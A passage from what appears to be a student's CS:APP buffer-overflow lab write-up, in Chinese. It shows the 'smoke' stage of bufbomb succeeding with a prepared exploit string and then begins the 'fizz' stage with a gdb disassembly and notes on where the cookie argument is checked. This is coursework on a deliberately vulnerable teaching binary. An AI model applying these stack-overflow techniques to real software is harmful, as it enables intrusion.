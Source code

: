 ```
~/myclass/csapp$  ./sendstring <smoke.txt> exploit_smoke.txt
~/myclass/csapp$ ls
bufbomb  buflab-handout.tar  exploit_smoke.txt  makecookie  sendstring  smoke.txt
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_smoke.txt
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:Smoke!: You called smoke()    # 调用成功
sh: 1: /usr/sbin/sendmail: not found      # sendmail 未安装
Error: Unable to send validation information to grading server

# sendmail 可通过 `sudo apt-get install sendmail` 指令安装
# 安装成功后运行结果如下
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_smoke.txt
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:Smoke!: You called smoke()    # 缓冲区溢出攻击有效
NICE JOB!
Sent validation information to grading server
```

## fizz

fizz 与 smoke 部分的大致思路相同，不过 fizz 需要将我们刚刚生成的 cookie 作为参数传入，参看 void fizz(int val)。
```
(gdb) disassemble fizz
Dump of assembler code for function fizz:
   0x08048dc0 <+0>:     push   %ebp          # fizz 的入口地址
   0x08048dc1 <+1>:     mov    %esp,%ebp
   0x08048dc3 <+3>:     push   %ebx
   0x08048dc4 <+4>:     sub    $0x14,%esp    # 分配栈空间，20字节
   0x08048dc7 <+7>:     mov    0x8(%ebp),%ebx      # 注意，此时的 0x8(%ebp) 即为参数 1 的位置
   0x08048dca <+10>:    movl   $0x1,(%esp)
   0x08048dd1 <+17>:    call   0x80489a0 <entry_check>
   0x08048dd6 <+22>:    cmp    0x804a1cc,%ebx
   
   # 比较传入参数与 0x804a1cc 处的存储值
   # (gdb) x/x 0x804a1cc
   # 0x804a1cc <cookie>:     0x46110021
   # gdb 查看可知 0x804a1cc 存储的即为我们的 cookie 值

   0x08048ddc <+28>:    je     0x8048e00 <fizz+64>
   0x08048dde <+30>:    mov    %ebx,0x4(%esp)      ###### 此处
   0x08048de2 <+34>:    movl   $0x8049898,(%esp)
   0x08048de9 <+41>:    call   0x8048764 <printf@plt>
   0x08048dee <+46>:    movl   $0x0,(%esp)
   0x08048df5 <+53>:    call   0x80487a4 <exit@plt>
   0x08048dfa <+58>:    lea    0x0(%esi),%esi
   0x08048e00 <+64>:    mov    %ebx,0x4(%esp)      ###### 此处
   0x08048e04 <+68>:    movl   $0x8049a29,(%esp)
   0x08048e0b <+75>:    call   0x8048764 <printf@plt>
   0x08048e10 <+80>:    movl   $0x1,(%esp)
   0x08048e17 <+87>:    call   0x8048ae0 <validate>
   0x08048e1c <+92>:    jmp    0x8048dee <fizz+46>
End of assembler dump.
```
![](https://github.com/Yudreamy/classlater/blob/master/csapp/datalab3/picture/structure.PNG)

